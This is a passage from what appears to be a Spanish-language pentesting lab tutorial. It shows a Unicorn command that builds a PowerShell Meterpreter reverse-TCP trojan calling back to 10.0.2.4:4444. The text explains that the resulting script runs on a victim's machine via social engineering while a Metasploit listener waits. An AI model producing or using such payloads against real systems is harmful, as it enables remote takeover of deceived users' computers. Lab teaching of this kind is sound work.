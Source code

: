![alt text](image-30.png)

3. Generamos un troyano para realizar un ataque de `PowerShell`

```bash
python unicorn.py windows/meterpreter/reverse_tcp 10.0.2.4 4444
```
4. Ahora esto nos dará dos archivos. Uno es un archivo de texto llamado `powershell_attack.txt` que tiene el código de powershell que se ejecutará en la máquina de la víctima utilizando ingeniería social y el otro es `unicorn.rc`, que es un archivo metasploit personalizado que establecerá automáticamente todos los parámetros e iniciará un oyente.

![alt text](image-31.png)
